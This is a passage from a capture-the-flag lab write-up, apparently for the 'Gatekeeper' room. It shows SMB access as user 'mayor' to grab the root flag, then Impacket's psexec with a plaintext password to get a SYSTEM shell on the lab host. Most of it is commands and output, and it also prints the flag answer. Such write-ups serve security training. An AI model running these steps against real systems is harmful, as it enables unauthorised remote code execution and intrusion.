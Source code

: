 ```
kali@kali:~/thm/gatekeeper/smb$ smbclient -U mayor //10.10.233.170/Users
Enter WORKGROUP\mayor's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Thu May 14 21:57:08 2020
  ..                                 DR        0  Thu May 14 21:57:08 2020
  All Users                         DHS        0  Tue Jul 14 01:08:56 2009
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  Default User                      DHS        0  Tue Jul 14 01:08:56 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  mayor                               D        0  Sun Apr 19 11:55:52 2020
  natbat                              D        0  Thu Jul  9 16:46:51 2020
  Public                             DR        0  Thu May 14 21:54:46 2020
  Share                               D        0  Thu Jul  9 16:47:38 2020

		7863807 blocks of size 4096. 3856525 blocks available
smb: \> cd mayor
smb: \mayor\> cd Desktop
smb: \mayor\Desktop\> dir
  .                                  DR        0  Thu May 14 21:58:07 2020
  ..                                 DR        0  Thu May 14 21:58:07 2020
  desktop.ini                       AHS      282  Sun Apr 19 11:55:56 2020
  root.txt.txt                        A       27  Thu May 14 21:21:09 2020

		7863807 blocks of size 4096. 3856718 blocks available
smb: \mayor\Desktop\> get root.txt.txt
getting file \mayor\Desktop\root.txt.txt of size 27 as root.txt.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```

```
kali@kali:~/thm/gatekeeper/smb$ cat root.txt.txt 
{Th3_M4y0r_C0ngr4tul4t3s_U}
```

Installation de Impacket

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip install .
```

```
psexec.py mayor:8CL7O1N78MdrCIsV@10.10.233.170 cmd -path c:\\windows\\system32\\
Impacket v0.9.22.dev1+20200629.145357.5d4ad6cc - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.233.170.....
[*] Found writable share ADMIN$
[*] Uploading file LAooGvEo.exe
[*] Opening SVCManager on 10.10.233.170.....
[*] Creating service ByDX on 10.10.233.170.....
[*] Starting service ByDX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32>whoami
nt authority\system
```
